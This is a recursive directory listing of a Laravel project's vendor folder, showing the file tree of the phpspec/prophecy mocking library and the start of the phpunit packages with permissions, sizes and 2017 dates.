drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   49 Mar  2  2017 .gitignore
-rw-r--r-- 1 www-data www-data  818 Mar  2  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 6.6K Mar  2  2017 CHANGES.md
-rw-r--r-- 1 www-data www-data  689 Mar  2  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 LICENSE
-rw-r--r-- 1 www-data www-data  15K Mar  2  2017 README.md
-rw-r--r-- 1 www-data www-data 1.4K Mar  2  2017 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 fixtures
-rw-r--r-- 1 www-data www-data  619 Mar  2  2017 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 spec
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 src
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 tests

/var/www/laravel/vendor/phpspec/prophecy/fixtures:
total 80K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   58 Mar  2  2017 EmptyClass.php
-rw-r--r-- 1 www-data www-data   66 Mar  2  2017 EmptyInterface.php
-rw-r--r-- 1 www-data www-data   64 Mar  2  2017 FinalClass.php
-rw-r--r-- 1 www-data www-data  141 Mar  2  2017 ModifierInterface.php
-rw-r--r-- 1 www-data www-data   88 Mar  2  2017 Named.php
-rw-r--r-- 1 www-data www-data  260 Mar  2  2017 OptionalDepsClass.php
-rw-r--r-- 1 www-data www-data  368 Mar  2  2017 SpecialMethods.php
-rw-r--r-- 1 www-data www-data  247 Mar  2  2017 WithArguments.php
-rw-r--r-- 1 www-data www-data  156 Mar  2  2017 WithCallableArgument.php
-rw-r--r-- 1 www-data www-data  123 Mar  2  2017 WithFinalMethod.php
-rw-r--r-- 1 www-data www-data  199 Mar  2  2017 WithFinalVirtuallyPrivateMethod.php
-rw-r--r-- 1 www-data www-data  131 Mar  2  2017 WithProtectedAbstractMethod.php
-rw-r--r-- 1 www-data www-data  153 Mar  2  2017 WithReferences.php
-rw-r--r-- 1 www-data www-data  300 Mar  2  2017 WithReturnTypehints.php
-rw-r--r-- 1 www-data www-data  117 Mar  2  2017 WithStaticMethod.php
-rw-r--r-- 1 www-data www-data  144 Mar  2  2017 WithTypehintedVariadicArgument.php
-rw-r--r-- 1 www-data www-data  118 Mar  2  2017 WithVariadicArgument.php
-rw-r--r-- 1 www-data www-data  228 Mar  2  2017 WithVirtuallyPrivateMethod.php

/var/www/laravel/vendor/phpspec/prophecy/spec:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 Prophecy

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy:
total 52K
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Argument
-rw-r--r--  1 www-data www-data 3.4K Mar  2  2017 ArgumentSpec.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Call
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Comparator
drwxr-xr-x  4 www-data www-data 4.0K Mar  2  2017 Doubler
drwxr-xr-x  6 www-data www-data 4.0K Mar  2  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prediction
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Promise
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prophecy
-rw-r--r--  1 www-data www-data 2.6K Mar  2  2017 ProphetSpec.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Util

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Argument:
total 20K
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 4.6K Mar  2  2017 ArgumentsWildcardSpec.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Token

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Argument/Token:
total 76K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  557 Mar  2  2017 AnyValueTokenSpec.php
-rw-r--r-- 1 www-data www-data  573 Mar  2  2017 AnyValuesTokenSpec.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  2  2017 ApproximateValueTokenSpec.php
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 ArrayCountTokenSpec.php
-rw-r--r-- 1 www-data www-data 7.2K Mar  2  2017 ArrayEntryTokenSpec.php
-rw-r--r-- 1 www-data www-data 2.9K Mar  2  2017 ArrayEveryEntryTokenSpec.php
-rw-r--r-- 1 www-data www-data  986 Mar  2  2017 CallbackTokenSpec.php
-rw-r--r-- 1 www-data www-data 4.2K Mar  2  2017 ExactValueTokenSpec.php
-rw-r--r-- 1 www-data www-data 4.5K Mar  2  2017 IdenticalValueTokenSpec.php
-rw-r--r-- 1 www-data www-data 2.2K Mar  2  2017 LogicalAndTokenSpec.php
-rw-r--r-- 1 www-data www-data 1.7K Mar  2  2017 LogicalNotTokenSpec.php
-rw-r--r-- 1 www-data www-data 2.1K Mar  2  2017 ObjectStateTokenSpec.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 StringContainsTokenSpec.php
-rw-r--r-- 1 www-data www-data 1.4K Mar  2  2017 TypeTokenSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Call:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 7.4K Mar  2  2017 CallCenterSpec.php
-rw-r--r--  1 www-data www-data 1.3K Mar  2  2017 CallSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Comparator:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Mar  2  2017 ClosureComparatorSpec.php
-rw-r--r--  1 www-data www-data  519 Mar  2  2017 FactorySpec.php
-rw-r--r--  1 www-data www-data 1.3K Mar  2  2017 ProphecyComparatorSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Doubler:
total 28K
drwxr-xr-x  4 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 ClassPatch
-rw-r--r--  1 www-data www-data 3.8K Mar  2  2017 DoublerSpec.php
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Generator
-rw-r--r--  1 www-data www-data 2.4K Mar  2  2017 LazyDoubleSpec.php
-rw-r--r--  1 www-data www-data 2.0K Mar  2  2017 NameGeneratorSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Doubler/ClassPatch:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 DisableConstructorPatchSpec.php
-rw-r--r-- 1 www-data www-data 1020 Mar  2  2017 HhvmExceptionPatchSpec.php
-rw-r--r-- 1 www-data www-data 1.1K Mar  2  2017 KeywordPatchSpec.php
-rw-r--r-- 1 www-data www-data 3.4K Mar  2  2017 MagicCallPatchSpec.php
-rw-r--r-- 1 www-data www-data 3.0K Mar  2  2017 ProphecySubjectPatchSpec.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  2  2017 ReflectionClassNewInstancePatchSpec.php
-rw-r--r-- 1 www-data www-data 2.7K Mar  2  2017 SplFileInfoPatchSpec.php
-rw-r--r-- 1 www-data www-data 1.4K Mar  2  2017 TraversablePatchSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Doubler/Generator:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  14K Mar  2  2017 ClassCodeGeneratorSpec.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 ClassCreatorSpec.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Node

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Doubler/Generator/Node:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar  2  2017 ArgumentNodeSpec.php
-rw-r--r-- 1 www-data www-data 5.4K Mar  2  2017 ClassNodeSpec.php
-rw-r--r-- 1 www-data www-data 3.6K Mar  2  2017 MethodNodeSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Exception:
total 24K
drwxr-xr-x  6 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Call
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Doubler
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prediction
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prophecy

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Exception/Call:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  776 Mar  2  2017 UnexpectedCallExceptionSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Exception/Doubler:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  637 Mar  2  2017 ClassCreatorExceptionSpec.php
-rw-r--r-- 1 www-data www-data  573 Mar  2  2017 ClassMirrorExceptionSpec.php
-rw-r--r-- 1 www-data www-data  595 Mar  2  2017 ClassNotFoundExceptionSpec.php
-rw-r--r-- 1 www-data www-data  326 Mar  2  2017 DoubleExceptionSpec.php
-rw-r--r-- 1 www-data www-data  552 Mar  2  2017 InterfaceNotFoundExceptionSpec.php
-rw-r--r-- 1 www-data www-data  600 Mar  2  2017 MethodNotExtendableExceptionSpec.php
-rw-r--r-- 1 www-data www-data  898 Mar  2  2017 MethodNotFoundExceptionSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Exception/Prediction:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Mar  2  2017 AggregateExceptionSpec.php
-rw-r--r-- 1 www-data www-data  731 Mar  2  2017 NoCallsExceptionSpec.php
-rw-r--r-- 1 www-data www-data  815 Mar  2  2017 UnexpectedCallsCountExceptionSpec.php
-rw-r--r-- 1 www-data www-data  961 Mar  2  2017 UnexpectedCallsExceptionSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Exception/Prophecy:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  770 Mar  2  2017 MethodProphecyExceptionSpec.php
-rw-r--r-- 1 www-data www-data  587 Mar  2  2017 ObjectProphecyExceptionSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Prediction:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.4K Mar  2  2017 CallPredictionSpec.php
-rw-r--r--  1 www-data www-data 1.5K Mar  2  2017 CallTimesPredictionSpec.php
-rw-r--r--  1 www-data www-data  842 Mar  2  2017 CallbackPredictionSpec.php
-rw-r--r--  1 www-data www-data 1.3K Mar  2  2017 NoCallsPredictionSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Promise:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 2.3K Mar  2  2017 CallbackPromiseSpec.php
-rw-r--r--  1 www-data www-data  951 Mar  2  2017 ReturnArgumentPromiseSpec.php
-rw-r--r--  1 www-data www-data 1.5K Mar  2  2017 ReturnPromiseSpec.php
-rw-r--r--  1 www-data www-data 2.9K Mar  2  2017 ThrowPromiseSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Prophecy:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data  13K Mar  2  2017 MethodProphecySpec.php
-rw-r--r--  1 www-data www-data 9.6K Mar  2  2017 ObjectProphecySpec.php
-rw-r--r--  1 www-data www-data 1.2K Mar  2  2017 RevealerSpec.php

/var/www/laravel/vendor/phpspec/prophecy/spec/Prophecy/Util:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 2.8K Mar  2  2017 StringUtilSpec.php

/var/www/laravel/vendor/phpspec/prophecy/src:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 Prophecy

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy:
total 60K
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Argument
-rw-r--r--  1 www-data www-data 4.7K Mar  2  2017 Argument.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Call
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Comparator
drwxr-xr-x  4 www-data www-data 4.0K Mar  2  2017 Doubler
drwxr-xr-x  6 www-data www-data 4.0K Mar  2  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 PhpDocumentor
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prediction
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Promise
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prophecy
-rw-r--r--  1 www-data www-data 3.8K Mar  2  2017 Prophet.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Util

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Argument:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Mar  2  2017 ArgumentsWildcard.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Token

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Argument/Token:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  939 Mar  2  2017 AnyValueToken.php
-rw-r--r-- 1 www-data www-data  986 Mar  2  2017 AnyValuesToken.php
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 ApproximateValueToken.php
-rw-r--r-- 1 www-data www-data 1.8K Mar  2  2017 ArrayCountToken.php
-rw-r--r-- 1 www-data www-data 3.7K Mar  2  2017 ArrayEntryToken.php
-rw-r--r-- 1 www-data www-data 1.7K Mar  2  2017 ArrayEveryEntryToken.php
-rw-r--r-- 1 www-data www-data 1.6K Mar  2  2017 CallbackToken.php
-rw-r--r-- 1 www-data www-data 3.0K Mar  2  2017 ExactValueToken.php
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 IdenticalValueToken.php
-rw-r--r-- 1 www-data www-data 1.8K Mar  2  2017 LogicalAndToken.php
-rw-r--r-- 1 www-data www-data 1.6K Mar  2  2017 LogicalNotToken.php
-rw-r--r-- 1 www-data www-data 2.6K Mar  2  2017 ObjectStateToken.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  2  2017 StringContainsToken.php
-rw-r--r-- 1 www-data www-data  912 Mar  2  2017 TokenInterface.php
-rw-r--r-- 1 www-data www-data 1.7K Mar  2  2017 TypeToken.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Call:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 2.5K Mar  2  2017 Call.php
-rw-r--r--  1 www-data www-data 5.8K Mar  2  2017 CallCenter.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Comparator:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.1K Mar  2  2017 ClosureComparator.php
-rw-r--r--  1 www-data www-data  980 Mar  2  2017 Factory.php
-rw-r--r--  1 www-data www-data  883 Mar  2  2017 ProphecyComparator.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Doubler:
total 40K
drwxr-xr-x  4 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.7K Mar  2  2017 CachedDoubler.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 ClassPatch
-rw-r--r--  1 www-data www-data  482 Mar  2  2017 DoubleInterface.php
-rw-r--r--  1 www-data www-data 4.2K Mar  2  2017 Doubler.php
drwxr-xr-x  3 www-data www-data 4.0K Mar  2  2017 Generator
-rw-r--r--  1 www-data www-data 3.4K Mar  2  2017 LazyDouble.php
-rw-r--r--  1 www-data www-data 1.2K Mar  2  2017 NameGenerator.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Doubler/ClassPatch:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 ClassPatchInterface.php
-rw-r--r-- 1 www-data www-data 1.7K Mar  2  2017 DisableConstructorPatch.php
-rw-r--r-- 1 www-data www-data 1.5K Mar  2  2017 HhvmExceptionPatch.php
-rw-r--r-- 1 www-data www-data 3.0K Mar  2  2017 KeywordPatch.php
-rw-r--r-- 1 www-data www-data 2.4K Mar  2  2017 MagicCallPatch.php
-rw-r--r-- 1 www-data www-data 3.0K Mar  2  2017 ProphecySubjectPatch.php
-rw-r--r-- 1 www-data www-data 1.4K Mar  2  2017 ReflectionClassNewInstancePatch.php
-rw-r--r-- 1 www-data www-data 2.6K Mar  2  2017 SplFileInfoPatch.php
-rw-r--r-- 1 www-data www-data 2.3K Mar  2  2017 TraversablePatch.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Doubler/Generator:
total 36K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 4.3K Mar  2  2017 ClassCodeGenerator.php
-rw-r--r-- 1 www-data www-data 1.8K Mar  2  2017 ClassCreator.php
-rw-r--r-- 1 www-data www-data 7.8K Mar  2  2017 ClassMirror.php
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Node
-rw-r--r-- 1 www-data www-data  498 Mar  2  2017 ReflectionInterface.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Doubler/Generator/Node:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 2.0K Mar  2  2017 ArgumentNode.php
-rw-r--r-- 1 www-data www-data 3.6K Mar  2  2017 ClassNode.php
-rw-r--r-- 1 www-data www-data 4.4K Mar  2  2017 MethodNode.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Exception:
total 32K
drwxr-xr-x  6 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Call
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Doubler
-rw-r--r--  1 www-data www-data  555 Mar  2  2017 Exception.php
-rw-r--r--  1 www-data www-data  405 Mar  2  2017 InvalidArgumentException.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prediction
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 Prophecy

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Exception/Call:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  982 Mar  2  2017 UnexpectedCallException.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Exception/Doubler:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  693 Mar  2  2017 ClassCreatorException.php
-rw-r--r-- 1 www-data www-data  682 Mar  2  2017 ClassMirrorException.php
-rw-r--r-- 1 www-data www-data  709 Mar  2  2017 ClassNotFoundException.php
-rw-r--r-- 1 www-data www-data  425 Mar  2  2017 DoubleException.php
-rw-r--r-- 1 www-data www-data  407 Mar  2  2017 DoublerException.php
-rw-r--r-- 1 www-data www-data  480 Mar  2  2017 InterfaceNotFoundException.php
-rw-r--r-- 1 www-data www-data  836 Mar  2  2017 MethodNotExtendableException.php
-rw-r--r-- 1 www-data www-data 1.3K Mar  2  2017 MethodNotFoundException.php
-rw-r--r-- 1 www-data www-data  909 Mar  2  2017 ReturnByReferenceException.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Exception/Prediction:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Mar  2  2017 AggregateException.php
-rw-r--r-- 1 www-data www-data  586 Mar  2  2017 FailedPredictionException.php
-rw-r--r-- 1 www-data www-data  474 Mar  2  2017 NoCallsException.php
-rw-r--r-- 1 www-data www-data  413 Mar  2  2017 PredictionException.php
-rw-r--r-- 1 www-data www-data  776 Mar  2  2017 UnexpectedCallsCountException.php
-rw-r--r-- 1 www-data www-data  812 Mar  2  2017 UnexpectedCallsException.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Exception/Prophecy:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  809 Mar  2  2017 MethodProphecyException.php
-rw-r--r-- 1 www-data www-data  794 Mar  2  2017 ObjectProphecyException.php
-rw-r--r-- 1 www-data www-data  409 Mar  2  2017 ProphecyException.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/PhpDocumentor:
total 24K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.9K Mar  2  2017 ClassAndInterfaceTagRetriever.php
-rw-r--r--  1 www-data www-data 1.4K Mar  2  2017 ClassTagRetriever.php
-rw-r--r--  1 www-data www-data  879 Mar  2  2017 LegacyClassTagRetriever.php
-rw-r--r--  1 www-data www-data  735 Mar  2  2017 MethodTagRetrieverInterface.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Prediction:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Mar  2  2017 CallPrediction.php
-rw-r--r--  1 www-data www-data 3.2K Mar  2  2017 CallTimesPrediction.php
-rw-r--r--  1 www-data www-data 1.7K Mar  2  2017 CallbackPrediction.php
-rw-r--r--  1 www-data www-data 1.8K Mar  2  2017 NoCallsPrediction.php
-rw-r--r--  1 www-data www-data  927 Mar  2  2017 PredictionInterface.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Promise:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 1.7K Mar  2  2017 CallbackPromise.php
-rw-r--r--  1 www-data www-data  843 Mar  2  2017 PromiseInterface.php
-rw-r--r--  1 www-data www-data 1.6K Mar  2  2017 ReturnArgumentPromise.php
-rw-r--r--  1 www-data www-data 1.3K Mar  2  2017 ReturnPromise.php
-rw-r--r--  1 www-data www-data 2.9K Mar  2  2017 ThrowPromise.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Prophecy:
total 44K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data  12K Mar  2  2017 MethodProphecy.php
-rw-r--r--  1 www-data www-data 7.7K Mar  2  2017 ObjectProphecy.php
-rw-r--r--  1 www-data www-data  556 Mar  2  2017 ProphecyInterface.php
-rw-r--r--  1 www-data www-data  735 Mar  2  2017 ProphecySubjectInterface.php
-rw-r--r--  1 www-data www-data  912 Mar  2  2017 Revealer.php
-rw-r--r--  1 www-data www-data  584 Mar  2  2017 RevealerInterface.php

/var/www/laravel/vendor/phpspec/prophecy/src/Prophecy/Util:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r--  1 www-data www-data 6.6K Mar  2  2017 ExportUtil.php
-rw-r--r--  1 www-data www-data 2.5K Mar  2  2017 StringUtil.php

/var/www/laravel/vendor/phpspec/prophecy/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 Doubler

/var/www/laravel/vendor/phpspec/prophecy/tests/Doubler:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 Generator

/var/www/laravel/vendor/phpspec/prophecy/tests/Doubler/Generator:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar  2  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  2  2017 ..
-rw-r--r-- 1 www-data www-data  15K Mar  2  2017 ClassMirrorTest.php

/var/www/laravel/vendor/phpunit:
total 36K
drwxr-xr-x  9 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 php-code-coverage
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 php-file-iterator
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 php-text-template
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 php-timer
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 php-token-stream
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 phpunit
drwxr-xr-x  5 www-data www-data 4.0K Apr  9  2017 phpunit-mock-objects

/var/www/laravel/vendor/phpunit/php-code-coverage:
total 80K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Apr  2  2017 .gitattributes
drwxr-xr-x 2 www-data www-data 4.0K Apr  2  2017 .github
-rw-r--r-- 1 www-data www-data   64 Apr  2  2017 .gitignore
-rw-r--r-- 1 www-data www-data 2.0K Apr  2  2017 .php_cs
-rw-r--r-- 1 www-data www-data  781 Apr  2  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 2.4K Apr  2  2017 ChangeLog-2.2.md
-rw-r--r-- 1 www-data www-data  910 Apr  2  2017 ChangeLog-3.0.md
-rw-r--r-- 1 www-data www-data 1008 Apr  2  2017 ChangeLog-3.1.md
-rw-r--r-- 1 www-data www-data  689 Apr  2  2017 ChangeLog-3.2.md
-rw-r--r-- 1 www-data www-data 1.1K Apr  2  2017 ChangeLog-3.3.md
-rw-r--r-- 1 www-data www-data 2.2K Apr  2  2017 ChangeLog-4.0.md
-rw-r--r-- 1 www-data www-data 1.6K Apr  2  2017 LICENSE
